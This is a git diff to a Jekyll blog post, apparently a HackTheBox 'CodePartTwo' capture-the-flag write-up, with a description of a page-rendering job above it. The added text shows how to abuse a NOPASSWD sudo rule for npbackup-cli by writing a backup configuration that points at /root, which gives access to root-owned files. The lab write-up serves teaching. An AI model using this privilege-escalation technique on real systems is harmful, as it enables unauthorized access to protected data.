

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from codeparttwo-htb.md, in a window 1280 px wide and 1400 px high, scrolled down 4309 px, cut to the strip 46-1400 px from the top of the window. Shown: the whole strip at 90% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 5113 px from its top, so only the background shows below that.

Commit message:
Update codeparttwo-htb.md

```diff
--- a/codeparttwo-htb.md
+++ b/codeparttwo-htb.md
@@ -82,4 +82,27 @@ Matching Defaults entries for marco on codeparttwo:
 User marco may run the following commands on codeparttwo:
     (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
 </code></pre>
-This is good, we already have the configuration file in our home directory which points the path to <b>/home/app/app </b>.
+This is good, we already have the configuration file in our home directory which points the path to <b>/home/app/app </b>. Now we can just create another copy of the configuration file which points to the <b>/root</b> and run the backup with sudo.
+<pre><code class="language-none">marco@codeparttwo:~$ cat npbackuproot.conf
+conf_version: 3.0.1
+audience: public
+repos:
+  default:
+    repo_uri:
+      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
+    repo_group: default_group
+    backup_opts:
+      paths:
+      - /root
+      source_type: folder_list
+      exclude_files_larger_than: 0.0
+    repo_opts:
+      repo_password:
+        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
+      retention_policy: {}
+      prune_max_unused: 0
+    prometheus: {}
+    env: {}
+    is_protected: false
+...LOT MORE
+</code></pre>
```
